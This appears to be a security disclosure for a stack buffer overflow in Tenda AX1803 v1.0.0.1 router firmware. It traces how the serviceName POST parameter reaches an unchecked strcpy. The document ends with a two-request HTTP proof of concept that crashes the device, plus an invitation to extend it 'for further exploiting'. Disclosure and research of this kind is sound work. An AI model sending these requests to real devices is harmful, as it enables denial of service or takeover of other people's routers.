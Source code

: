 # Tenda AX1803 v1.0.0.1 contains a stack overflow via the serviceName parameter in the function fromAdvSetMacMtuWan

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

## Vulnerability Description

The `form_fast_setting_internet_set` function in Tenda AX1803 v1.0.0.1 first extracts the value of the `netWanType` parameter from the POST request, and then passes this value to the `sub_569BC` function as the third parameter. By controlling the content of the POST request, we set the value of the `netWanType` parameter to 2, which is then passed as the third parameter to the `sub_569BC` function.
![QQ截图20240319205702](https://github.com/re1wn/IoT_vuln/assets/73987057/d399fc96-7563-4810-bcaa-d7906788ec41)
In the `sub_569BC` function, the `sprintf` function is utilized to concatenate the `wan1.connecttype` string. Subsequently, the `SetValue` function is employed to assign the value of the environment variable `wan1.connecttype` to the third parameter `a3` passed into the `sub_569BC` function, with a value of 2.
![QQ截图20240319205842](https://github.com/re1wn/IoT_vuln/assets/73987057/aec0e329-4f55-4fc9-af3c-990a4283b9dd)
The focus moves to the `fromAdvSetMacMtuWan` function. Here, the value "2" obtained from the POST request for the environment variable string `wan1.connecttype` is passed to `v6`, triggering the execution of the `sub_8C594` function.
![QQ截图20240319211358](https://github.com/re1wn/IoT_vuln/assets/73987057/9f6e0dae-1e37-472c-b996-24ac6b0e64ab)
In the `sub_8C594` function, the value of the `serviceName` parameter is extracted from the POST request, and then passed to the `strcpy` function, resulting in a buffer overflow.
![QQ截图20240319211701](https://github.com/re1wn/IoT_vuln/assets/73987057/026d7e87-40c4-4cec-9244-3f7048488b13)
## POC

First SetValue with poc:

```
POST /goform/fast_setting_internet_set HTTP/1.1
Host: 192.168.76.149
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bpvwtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

netWanType=2&adslUser=aaaa&adslPwd=aaaa
```

Then call fromAdvSetMacMtuWan and trigger overflow.

```
POST /goform/AdvSetMacMtuWan HTTP/1.1
Host: 192.168.76.149
Content-Length: 56
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.76.149
Referer: http://192.168.76.149/mac_clone.html?random=0.7547959184452664&
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

wanMTU=1285&wanSpeed=0&cloneType=0&mac=00:00:00:00:00:01&serviceName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&serverName=
```

We trigger a stack overflow vulnerability after sending the poc, and you may modify this for further exploiting.

